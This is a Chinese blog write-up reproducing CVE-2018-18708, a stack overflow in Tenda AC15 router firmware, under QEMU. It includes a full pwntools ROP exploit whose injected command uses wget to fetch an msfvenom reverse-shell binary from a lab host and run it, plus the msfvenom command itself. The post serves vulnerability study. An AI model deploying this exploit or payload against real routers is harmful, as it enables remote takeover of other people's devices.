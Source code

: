 ```yaml
---
title: Tenda 路由器 CVE-2018-18708 漏洞复现
date: 2024-03-14 15:47:30
tags: [IOT, 路由器， Pwn]
categories: [技术]
---
```


参考：[Tenda CVE-2018-18708 漏洞复现 (z1r0.top)](https://www.z1r0.top/2022/10/08/CVE-2018-18708-%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/#%E9%80%86%E5%90%91%E5%88%86%E6%9E%90)

固件下载：[https://github.com/z1r00/IOT_Vul/blob/main/固件下载/US_AC15V1.0BR_V15.03.05.19_multi_TD01.zip](https://github.com/z1r00/IOT_Vul/blob/main/%E5%9B%BA%E4%BB%B6%E4%B8%8B%E8%BD%BD/US_AC15V1.0BR_V15.03.05.19_multi_TD01.zip)

### Start

该固件的 `httpd` 有一个栈溢出漏洞，在 post 请求处理函数 `fromAddressNat()` 中拼接 `page` 参数时使用了 `sprintf` 但没有做长度限制，导致此处变量 `v6` 可以造成栈溢出

![](https://testingcf.jsdelivr.net/gh/hexrotor/hexrotor.github.io/images/post_imgs/tenda_ida.png.avif)

直接 qemu 模拟：

```bash
sudo chroot . ./qemu-arm-static /bin/httpd
```

模拟的时候由于它带一些环境检查，所以会卡在一些地方，用 ida 简单处理下就行，最后会提示获取的 IP 地址为 `255.255.255.255`

![](https://testingcf.jsdelivr.net/gh/hexrotor/hexrotor.github.io/images/post_imgs/tenda_ip.png.avif)

为了解决 IP 地址的问题，需要创建一个网桥

```bash
# 创建网桥
sudo brctl addbr br0
# 向网桥中加入网卡
sudo brctl addif br0 eth0 
# 开启网桥
sudo ifconfig br0 up 
# 可选，用于dhcp获取地址
sudo dhclient br0
# 直接设置 IP
sudo ifconfig br0 10.0.0.2/24
```

然后访问 web 页面，会提示 page not found，将 `webroot_ro` 的文件复制到 `webroot` 即可

通过抓包可以知道，不管是 get 还是 post 必须包括 cookie：password

```python
cookie = {"password" : "114514"}

try:
    requests.post("http://169.254.162.25/goform/addressNat",  timeout=1, cookies=cookie)
except:pass
```

这样发包 httpd 的 log 会有反应，用 gdb 调试看看

```bash
# 开启 gdb 调试端口 1234
sudo chroot . ./qemu-arm-static -g 1234 /bin/httpd
```

```bash
$ gdb-multiarch /bin/httpd
pwndbg> target remote 127.0.0.1:1234
```

在危险函数附近下个断点，看看能不能断下来，实际测试是能断下来，说明执行链过去了

然后可以传参 page 看看能不能溢出，答案是可以

```python
cookie = {"password" : "114514"}
payload = cyclic(256+0x100)

param = { "page": payload }
try:
    requests.post("http://169.254.162.25/goform/addressNat",  params=param, timeout=1, cookies=cookie)
```

![](https://testingcf.jsdelivr.net/gh/hexrotor/hexrotor.github.io/images/post_imgs/tenda_of.png.avif)

并且可以使用 `cyclic_find("laac")` 查找出 pc 偏移是 244，但是实际是还要 + 4，不太懂是为什么

既然可以控制 pc，那么可以考虑 ret2libc 执行 system，我没有真机，qemu user 模拟出来是没有随机化的，先打打看吧

```python
Arch: arm
RELRO:    No RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8000)
```

libc 的地址可以 gdb 里用 `vmmap` 看看，虽然它没显示 libc 的名字，但是 size 最大的那个地址一般就是 libc

于是得知 `libcBase = 0x3fd9c000`

rop 思路：gadget1 给寄存器 reg 赋值 `system` 地址，`/bin/sh` 可以写栈上，gadget2 找那种 mov r0, sp; blx reg，这里正好有一组适合的 gadget

```python
# 先找第二个，然后决定第一个用什么寄存器
# ROPgadget --binary libc.so.0|grep  "mov r0, sp"
0x0001fd64 : mov r0, sp ; sub r1, fp, #0x8c ; blx r3
# 所以第一个用 r3，很好找到
0x00018298 : pop {r3, pc}
```

```python
from pwn import *
import requests

libc = ELF("/home/hex/Desktop/TendaCVE/_US_AC15V1.0BR_V15.03.05.19_multi_TD01.bin.extracted/libc.so.0")
l = listen(9001)
libcBase = 0x3fd9c000
cookie = {"password" : "114514"}
# payload = cyclic(256+0x100)
# pc_offset = cyclic_find("laac") = 244
# r4_offset = cyclic_find("kaac") = 240
pop_r3_pc = 0x00018298 + libcBase # pop {r3, pc}
mov_r0_sp = 0x0001fd64 + libcBase # mov r0, sp;

cmd = b"/usr/bin/wget http://192.168.123.30:8888/venom -O /var/venom; /bin/chmod 777 /var/venom; /var/venom"
# cmd 写入的位置正好是 sp
# 用 msfvenom 生成了反弹 shell 木马，反弹连本机
# msfvenom -p linux/armle/shell_reverse_tcp LHOST=192.168.123.30 LPORT=9001 -f elf -o venom
# 随便用 busybox 开个 web 服务把马子放进去就行

payload = b"a"*244 + b"a"*4 + p32(pop_r3_pc) + p32(libcBase+libc.symbols["system"]) + p32(mov_r0_sp) + cmd
param = { "page": payload }
try:
    requests.post("http://169.254.162.25/goform/addressNat",  params=param, timeout=1, cookies=cookie)
except:pass
l.wait_for_connection()
success("reversed shell")
l.interactive()
```

随后我尝试用 qemu system 模拟，但是 gdbserver 传上去，本地 gdb 连上会报错，查了下是个存在很久的 bug，后面没搞了